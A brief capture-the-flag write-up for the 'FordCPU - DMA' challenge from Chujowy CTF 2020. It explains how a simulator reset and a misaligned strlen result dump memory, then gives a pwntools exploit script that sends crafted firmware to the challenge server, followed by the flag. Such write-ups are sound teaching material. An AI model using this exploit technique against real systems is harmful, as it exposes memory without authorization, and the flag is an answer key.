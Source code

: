```yaml
---
layout: post
title: "[Chujowy 2020] FordCPU - DMA"
author: Escher
---
```

For a more detailed version, click [here](https://www.danbrodsky.me/writeups/chujowyctf2020-fordcpu/).

Exploit:

reset simulator, which leaves rx_start set to 0 and overwrites firmware code
corrupt result of strlen in fast_puts by accident due to an unalignment between server RAM and provided RAM file. 2 byte unalignment causes strlen in fast_puts to return its arg (a large number), causing kernel to dump all strings in memory.
Could also write to start of memory before unalignment to dump all memory (REG32(LPT_REG_TX_BUFFER_END) = 0x10000; while(1);)

```python
from pwn import *

data = open("firmware.hex", "rb").read()
data = data.replace(b'\n',b'')
firmware = b''
for i in range(0,len(data), 8):
    firmware += struct.pack("<I", int(data[i:i+8],16))
write("firmware.x", data=firmware)

# r = process('./Vtop')
r = remote("ford-cpu.chujowyc.tf", 4001)
r.interactive()

r.send(b"ack\n\n\n\n\n")
print(r.recv())
r.send("cmp\n\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
print(r.clean())
r.send("AAAA\n\n\n\n")
firmware = firmware[:0x248]
r.send(firmware)

r.interactive()

# chCTF{Pr0P3R_r353771n9_15_V3rY_H4RD}
```
